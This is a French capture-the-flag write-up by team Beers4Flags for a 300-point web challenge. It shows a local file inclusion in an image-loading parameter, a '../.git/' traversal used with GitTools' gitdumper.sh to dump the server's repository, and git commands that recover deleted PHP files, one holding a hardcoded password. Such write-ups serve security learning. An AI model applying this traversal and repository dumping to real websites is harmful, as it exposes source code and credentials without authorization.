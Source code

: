 **Web - 300pts**

Enoncé :
```

```

**Résolution :**

Sur la page d'accueil le lien qui charge l'image nous semble suspect :
```
https://pushup.thcon.party/assets/png/load_image.png?_=muscle.png
```

Après plusieurs essais on remarque la présence d'une LFI.
On se sert de cette LFI pour récupérer le dossier .git présent sur le serveur avec [Gittools](https://github.com/internetwache/GitTools) :

```BASH
./gitdumper.sh "https://pushup.thcon.party/assets/png/load_image.png?_=../.git/" th_web300
```
On regarde la liste des commits :
```BASH
git log
```
On obtient un commit intérressant :

```
commit 2e3dfdcfeb22de43101397456f5d344d14f2dc5a
Author: zadig <zadig@riseup.net>
Date:   Fri Dec 15 22:02:16 2017 +0100

    Ajout de la méthode pour l'authentification

```

```BASH
git checkout 2e3dfdcfeb22de43101397456f5d344d14f2dc5a

```

On fait un git status , le fichier auth.php servant à l'authentification à été supprimé.

Pour le récupérer : 

```BASH
git checkout auth.php

```

Contenu du fichier auth.php :

```PHP
<?php

require_once 'engine/config.php';

if ($_POST['biceps'] === ___) {
  echo str_replace('_FLAG_', file_get_contents('flag.txt'), file_get_contents('templates/success.html'));
} else {
  echo file_get_contents('templates/error.html');
}
```

On récupère alors le fichier engine/config.php :

```BASH
git checkout engine/config.php

```


Dans le fichier engine/config.php on trouve le mot de passe de l'interface :
```PHP
<?php
const _ = '_ROOT_';
const __ = '_';

const ___ = 'ProtéinesDansLeMuscleExcessivement!';

const ____ = 'muscle.png';
?>

```
Une fois le mot de passe entrée on obtient le flag


![Alt](img/flag.png "Flag")



By team Beers4Flags


```
 ________
|        |
|  #BFF  |
|________|
   _.._,_|,_
  (      |   )
   ]~,"-.-~~[
 .=] Beers ([
 | ])  4   ([
 '=]) Flags [
   |:: '    |
    ~~----~~
```
